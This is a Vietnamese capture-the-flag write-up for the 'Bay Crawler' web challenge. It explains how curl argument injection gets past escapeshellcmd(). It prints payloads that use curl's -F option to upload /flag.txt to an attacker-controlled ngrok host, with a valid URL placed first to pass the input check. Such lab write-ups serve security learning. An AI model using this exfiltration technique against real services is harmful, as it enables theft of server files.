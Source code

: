 ## Challenge: Bay Crawler

Hé lô, nay chúng ta sẽ giải một bài ctf khá hay ho tới từ Cookie Arena.

<img src="img/img1.png">

Nhập bất cứ trang web nào thì trang web này cũng sẽ thu thập nội dung của website đó rồi nén lại thành 1 đường dẫn ở Catched File.

<img src="img/img2.png">

Lúc đầu, tui nghĩ sẽ sử dụng SSRF hoặc command injection, nhưng không thu được gì.

Đọc source code thì thấy có một thông tin thú zị.

<img src="img/img3.png">

Ở ```/?debug``` có chứa code php, lướt lướt qua sơ thì thấy đoạn này

<img src="img/img4.png">

Chú ý từ đoạn else, nếu đầu vào đúng thì server sẽ sử dụng lệnh curl để crawl nội dung từ url ta nhập vào sau đó đưa vào file được mã hóa ở .cache.
Chú ý hàm ```escapeshellcmd()``` đã chặn những kí tự có thể sử dụng để hình thành shell -> Không dùng command injection được.

Theo tui được biết thì lệnh curl cũng có thể gửi file đi được, với option -F.
Ý tưởng sẽ là thế này, chúng ta sẽ gửi payload ```-F @/flag.txt http://hackerserver.com``` để server thực hiện lệnh curl, gửi nội dung file ```flag.txt``` đến với server mà ta host. Ở đây tui sử dụng ```ngrok``` hoặc có thể sử dụng ```Collaborator Client``` ở Burpsuit Pro.

Payload: ```-F @/flag.txt https://f37d-42-119-101-63.ngrok-free.app/```
Nếu nhập payload trên thì sẽ không được vì lệnh if yêu cầu phải có http hoặc https ở đầu.

<img src="img/img5.png">

Có vẻ hơi mệt nhưng thật ra khá là dễ để bypass chỉ cần thêm một url đúng nào đó thôi.
-> Payload cuối cùng: ```https://google.com -F file=@/flag.txt https://f37d-42-119-101-63.ngrok-free.app/```. Gửi lên server, server sẽ thực hiện curl tới google rồi sau đó gửi file flag.txt đến server ngrok nơi ta host.

<img src="img/img6.png">

Tèn ten, đã giải xong bài. Một challenge hay ho và học được nhiều điều. Nếu bạn không biết sử dụng [ngrok]<https://ngrok.com/> thì cứ vào web này, một tool khá hay ho hoặc bạn có thể lên youtube tìm kiếm.

## THANK YOU FOR LEARNING, GUYS

## PATIENCE IS THE KEY, SO KEEP TRYING EVERDAY, LUV U <3